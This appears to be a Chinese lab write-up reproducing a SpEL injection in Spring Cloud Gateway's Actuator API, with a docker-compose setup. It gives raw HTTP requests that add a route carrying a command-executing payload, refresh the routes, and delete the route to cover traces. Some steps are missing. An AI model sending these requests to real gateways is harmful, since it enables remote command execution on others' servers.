






# Spring Cloud Gateway Server 未授权访问漏洞

## 漏洞描述

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

## 环境搭建

执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。



## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```



然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

```



发送如下数据包即可查看执行结果：



最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```



再刷新下路由：

